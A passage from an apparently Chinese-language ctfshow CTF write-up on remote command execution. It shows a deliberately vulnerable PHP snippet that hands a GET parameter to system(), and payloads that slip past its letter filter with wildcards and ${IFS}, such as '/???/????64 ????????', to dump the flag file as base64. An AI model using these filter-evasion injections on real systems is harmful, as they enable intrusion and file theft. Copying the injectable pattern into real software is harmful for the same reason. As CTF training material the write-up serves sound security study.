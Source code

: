 ```
这里要注意有的时候可能会被意外截获

比如如果你用 /bin/?at${IFS}fl??.php%0a       那就会被.\*n.\*l.*栏下

还有可能是环境问题 /bin/past?${IFS}flag.php,在本地是能够运行的但是在此题当中却出不来结果
```

/bin 目录是存指令的地方

![image-20210127142000419](ctfshow-rce/image-20210127142000419.png)

## 55 过滤所有小写字母

```PHP
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
```

过滤了所有小写字符,但是没有过滤通配符，可以使用带数字的命令绕过

base64的使用

有个命令是/bin/base64，我们可以据此构造

```
?c=/???/????64 ????????
```

得到

```
PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMg QERhdGU6ICAgMjAyMC0wOS0wNyAxOTo0MDo1Mw0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhh DQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMDktMDcgMTk6NDE6MDANCiMgQGVtYWlsOiBo MXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KDQokZmxh Zz0iZmxhZ3tlYTY0MTJlZi03NGY3LTQ1ZjItYWJiYS05M2Y2ODZkOTkwZDh9Ijs= 
```
